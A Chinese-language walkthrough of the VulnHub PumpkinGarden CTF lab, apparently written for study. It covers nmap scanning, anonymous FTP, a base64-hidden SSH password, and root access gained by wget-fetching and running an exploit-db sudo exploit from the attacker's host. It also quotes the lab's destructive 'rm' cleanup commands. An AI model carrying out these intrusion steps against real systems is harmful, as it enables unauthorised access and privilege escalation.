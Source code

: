 # PumpkinGarden-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/mission-pumpkin-v10-pumpkingarden,321/

**Description**

Mission-Pumpkin v1.0 is a beginner level CTF series, created by keeping beginners in mind. This CTF series is for people who have basic knowledge of hacking tools and techniques but struggling to apply known tools. I believe that machines in this series will encourage beginners to learn the concepts by solving problems. PumpkinGarden is Level 1 of series of 3 machines under Mission-Pumpkin v1.0. The end goal of this CTF is to gain access to PumpkinGarden_key file stored in the root account.

**知识点**

无重要知识点

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinGarden/1.png)

排除法,去掉自己、宿主机、网关,这里 `192.168.141.128` 是靶机的地址。

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.128
```

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinGarden/2.png)

从 nmap 的探测结果看，存在 ftp、http、ssh 服务,且 ftp 允许匿名登录，vsftpd 的版本是 2.0.8 或之后，也没找到可利用的漏洞

从 ftp 匿名登录入手
```
ftp 192.168.141.128
    anonymous
    密码为空,直接回车
ls
get note.txt
bye
```

看一下发现的 note.txt
```
cat note.txt
Hello Dear!
Looking for route map to PumpkinGarden? I think jack can help you find it.
```

提示说 jack 可以帮助你，可能是个用户名。

看下 http 的情况

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinGarden/3.png)

一个南瓜猫猫头,页面上没有可交互的内容, Ctrl+U 看下源码

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinGarden/4.png)

```
searching for the route map? Pumpkin images may help you find the way
```
提示图片有些东西,访问 `/img` 路径下

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinGarden/5.png)

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinGarden/6.png)

像个 base64
```bash
echo "c2NhcmVjcm93IDogNVFuQCR5" | base64 -d
scarecrow : 5Qn@$y
```

看上去是 ssh 的账号密码,登上去试试

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinGarden/7.png)

home 目录里的 note.txt 给出了 goblin Y0n$M4sy3D1t 这个账号密码，su 切换过去

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinGarden/8.png)

按照 goblin home 目录 note 文件给出的提示

下载 https://www.securityfocus.com/data/vulnerabilities/exploits/38362.sh

> 注 : 我访问报 503 Service Temporarily Unavailable ,下载 https://www.exploit-db.com/exploits/11651 这个也一样

> 注意 : https://www.exploit-db.com/exploits/11651 的存在 /bin/sh^M : bad interpreter 问题

kali 下载 payload
```bash
wget https://www.exploit-db.com/download/11651

vim 11651
:set ff=unix
:wq!

python -m SimpleHTTPServer 8000
```

靶机下载,运行
```bash
cd
wget 192.168.141.134:8000/11651
chmod +x 11651
./11651 /bin/sh
```

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinGarden/9.png)

---

后台运行了删除脚本的命令
```bash
/bin/sh -c sleep 30; rm /home/goblin/*.*
/bin/sh -c sleep 30; rm /tmp/*
```

我这里是在 goblin 用户的 home 目录下运行的,且没给他后缀名,所以没受影响 :)

